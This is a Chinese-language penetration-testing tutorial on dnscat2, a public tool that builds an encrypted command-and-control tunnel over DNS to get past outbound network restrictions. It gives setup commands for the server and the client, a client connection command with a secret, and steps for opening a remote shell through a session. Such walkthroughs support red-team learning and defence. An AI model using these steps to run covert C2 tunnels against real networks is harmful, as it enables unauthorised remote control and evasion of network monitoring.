 # Dnscat2

内网出口一般对出站流量做了严格限制，但是通常不会限制 DNS 请求，也就是 UDP 53 请求。dnscat2是一款利用 DNS 协议创建加密 C2 隧道来控制服务器的工具。dnscat2 由客户端和服务端两部分组成。

#### 初始化dnscat2服务端

```
Server部署
git clone https://github.com/iagox86/dnscat2.git
apt-get install ruby-dev 
cd dnscat2/server/ 
gem install bundler 
bundle install 
ruby ./dnscat2.rb  # 启动服务端

```

![1.png](images/73b21ef20fe64d258b41413c339f0c3e.png)

#### 编译客户端

```
Client部署
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
make (如果你在 windows 环境下编译，需要将client/win32/dnscat2.vcproj 加载到 Visual Studio 并点击 “build” )

```

![2.png](images/d26556c78dbd49f68e599b7bd0ba508e.png)

如果目标内网放行了所有的 DNS 请求，那么就可以直接指定 HOST ，通过 UDP53 端口通信，而如果目标内网只允许和受信任的 DNS 服务器通信时就需要申请注意域名，并将运行 dnscat2 server 的服务器指定 Authoritative DNS 服务器。

注意：Dnscat2 默认是加密的，服务端可以通过–security=open关闭加密，可以提高传输的稳定性。

刚刚在启动服务端的时候默认是加密的，需要记下secret待客户端使用

![3.png](images/1c1594a2cf5249c68ff2bf42de8cdafd.png)

Client运行以下命令发现session建立成功

```
./dnscat --dns server=192.168.137.129,port=53 --secret=ca7670fc9b8f016b3ccb5749d11eed62

```

![4.png](images/f860b8a855e644d691b7ce899750ebdd.png)

#### dnscat2指令

返回服务端查看会话，可以通过help查看支持的命令

![5.png](images/13b37197970f49f48b71e9986c2e499f.png)

你可以通过sessions或windows查看当前会话，用`session(window) -i 1`进入名为1的会话，用help查看支持的命令

![6.png](images/117ce792d26b48ce92c54da19cf59559.png)

如果想返回shell，直接在session 1输入shell创建新的会话，通过ctrl+z返回上一层，选择新的session即可

![7.png](images/cd33aaf6f4064d80af8706f6452d12f3.png)

![8.png](images/aa2d0a23d83c4f29a55b077d47a8b222.png)

